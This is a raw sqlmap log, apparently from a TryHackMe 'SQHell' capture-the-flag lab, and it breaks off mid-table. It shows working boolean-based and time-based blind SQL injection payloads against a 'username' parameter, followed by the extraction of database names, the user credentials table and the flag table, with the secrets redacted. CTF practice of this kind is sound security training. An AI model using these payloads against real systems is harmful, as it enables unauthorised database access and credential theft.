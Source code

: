 ```text
[21:49:06] [INFO] checking if the injection point on GET parameter 'username' is a false positive
GET parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 111 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 1008=1008 AND 'oujI'='oujI

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 2948 FROM (SELECT(SLEEP(5)))RtjO) AND 'oVRc'='oVRc
---
[21:49:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[21:49:08] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:49:08] [INFO] fetching current database
[21:49:08] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[21:49:08] [INFO] retrieved: sqhell_3
[21:49:11] [INFO] fetching tables for database: 'sqhell_3'
[21:49:11] [INFO] fetching number of tables for database 'sqhell_3'
[21:49:11] [INFO] retrieved: 2
[21:49:11] [INFO] retrieved: flag
[21:49:12] [INFO] retrieved: users
[21:49:14] [INFO] fetching columns for table 'users' in database 'sqhell_3'
[21:49:14] [INFO] retrieved: 3
[21:49:14] [INFO] retrieved: id
[21:49:15] [INFO] retrieved: username
[21:49:17] [INFO] retrieved: password
[21:49:20] [INFO] fetching entries for table 'users' in database 'sqhell_3'
[21:49:20] [INFO] fetching number of entries for table 'users' in database 'sqhell_3'
[21:49:20] [INFO] retrieved: 1
[21:49:20] [INFO] retrieved: 1
[21:49:20] [INFO] retrieved: <HIDDEN>
[21:49:31] [INFO] retrieved: admin
Database: sqhell_3
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | <HIDDEN>                        | admin    |
+----+---------------------------------+----------+

[21:49:32] [INFO] table 'sqhell_3.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_3/users.csv'
[21:49:32] [INFO] fetching columns for table 'flag' in database 'sqhell_3'
[21:49:32] [INFO] retrieved: 2
[21:49:33] [INFO] retrieved: id
[21:49:33] [INFO] retrieved: flag
[21:49:34] [INFO] fetching entries for table 'flag' in database 'sqhell_3'
[21:49:34] [INFO] fetching number of entries for table 'flag' in database 'sqhell_3'
[21:49:34] [INFO] retrieved: 1
[21:49:35] [INFO] retrieved: THM{FLAG3:<HIDDEN>}
[21:49:49] [INFO] retrieved: 1
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
```